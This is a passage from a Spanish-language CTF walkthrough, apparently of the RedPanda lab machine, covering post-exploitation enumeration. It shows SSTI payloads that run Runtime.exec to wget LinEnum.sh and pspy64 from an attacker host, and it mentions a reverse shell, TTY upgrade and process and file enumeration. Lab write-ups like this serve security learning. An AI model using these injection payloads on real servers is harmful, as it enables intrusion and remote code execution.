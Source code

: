 
`wget` o `curl` para esto, tambien dejo ur [recurso] para que investigues mas del tema.

[recurso]: https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/

```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.40:8000/LinEnum.sh")}
```
Podemos darle permisdo desde aqui o desde la reverse-shell.
{:.note}


```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.40:8000/pspy64")}
```

Y por ultimo hacemos el tratamiento de la [tty] para poder movernos por el servidor 

trankilamente dejo el link a hacktrick para que sepas mas del tema.

[tty]: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys 


Lo tipico hacemos aki whoami, id me permite averiguar si el usuario actual pertenece al grupo logs 

ademas de ver la flag de user que esta en la ruta `/home/wookdenk` . 

Una búsqueda rápida en los procesos actuales con `LinEnum`  , `pspy64`  o `ps aux | grep root`  

,nos permite encontrar que la aplicación de la interfaz web es de 

`panda_search-0.0.1-SNAPSHOT.jar`. 

Al buscar los archivos propiedad del grupo logs, me he dado cuenta de que 

`/opt/panda_search/redpanda.log`. 

También tenemos acceso de lectura y escritura en `/tmp` y `/home/woodenk/`.


![list](/assets/img/redpanda/Arch-2022-08-31-16-26-48.png){:.lead width="800" height="100" loading="lazy"}


Husmeando por ahi nos encontramos con una base de datos pero no lleva a nada interesante.


![list](/assets/img/redpanda/Arch-2022-08-31-16-20-19.png){:.lead width="800" height="100" loading="lazy"}


[Hacktricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[Blog]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings